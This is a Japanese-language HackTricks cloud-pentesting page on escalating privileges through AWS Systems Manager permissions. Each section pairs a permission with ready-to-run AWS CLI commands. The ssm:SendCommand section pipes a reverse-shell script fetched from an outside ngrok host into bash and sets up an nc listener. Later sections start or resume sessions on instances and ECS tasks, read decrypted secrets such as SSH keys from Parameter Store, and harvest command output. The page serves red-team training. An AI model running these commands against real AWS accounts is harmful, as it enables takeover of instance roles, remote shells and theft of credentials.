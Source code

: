 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

SSMに関する詳細情報は以下を確認してください：

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** の権限を持つ攻撃者は、Amazon SSMエージェントが実行されているインスタンスで**コマンドを実行**し、**その中で実行されているIAMロールを侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
```markdown
既に侵害されたEC2インスタンス内で特権を昇格させるためにこの技術を使用している場合、次のコマンドでローカルにrevシェルをキャプチャできます：
```
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在的な影響:** SSMエージェントが実行されているインスタンスにアタッチされたEC2 IAMロールへの直接的な権限昇格。

### `ssm:StartSession`

**`ssm:StartSession`** の権限を持つ攻撃者は、Amazon SSMエージェントが実行されているインスタンスで**SSHのようなセッションを開始**し、その中で実行されている**IAMロールを侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
セッションを開始するには、**SessionManagerPlugin** をインストールする必要があります: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**潜在的な影響:** SSMエージェントが実行されているインスタンスにアタッチされたEC2 IAMロールへの直接的な権限昇格。

#### ECSへの権限昇格

**ECSタスク**が**`ExecuteCommand`を有効にして実行される**と、十分な権限を持つユーザーは `ecs execute-command` を使用して**コンテナ内でコマンドを実行**できます。\
[**ドキュメント**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)によると、これは「_exec_」コマンドを開始するために使用するデバイスと、SSMセッションマネージャーを使用したターゲットコンテナとの間に安全なチャネルを作成することによって行われます。（これが機能するためにはSSMセッションマネージャープラグインが必要です）\
したがって、`ssm:StartSession`を持つユーザーは、そのオプションが有効になっているECSタスク内で**シェルを取得**できるようになります。
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**潜在的な影響:** `ExecuteCommand`が有効な実行中のタスクに添付された`ECS`IAMロールへの直接的な権限昇格。

### `ssm:ResumeSession`

**`ssm:ResumeSession`**の権限を持つ攻撃者は、**切断された**SSMセッション状態のAmazon SSMエージェントが実行されているインスタンスでSSHのようなセッションを再**開始**し、その中で実行されているIAMロールを**侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在的な影響:** SSMエージェントが実行されているインスタンスに接続されたEC2 IAMロールへの直接的な権限昇格と切断されたセッション。

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

言及された権限を持つ攻撃者は、**SSMパラメータ**をリストし、**平文で読む**ことができるようになります。これらのパラメータには、SSHキーやAPIキーなどの**機密情報**が頻繁に**見つかる**ことがあります。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在的な影響:** パラメータ内の機密情報を見つける。

### `ssm:ListCommands`

この権限を持つ攻撃者は、送信されたすべての**コマンド**をリストし、そこに**機密情報**が含まれていることを期待できます。
```
aws ssm list-commands
```
**潜在的な影響:** コマンドライン内の機密情報を見つける。

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

これらの権限を持つ攻撃者は、送信されたすべての**コマンド**をリストし、生成された**出力を読み取る**ことができ、そこに**機密情報**が見つかることを期待します。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在的影響:** コマンドラインの出力内に機密情報を見つける。

### Codebuild

SSMを使用して、ビルド中のcodebuildプロジェクトにアクセスすることもできます：

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
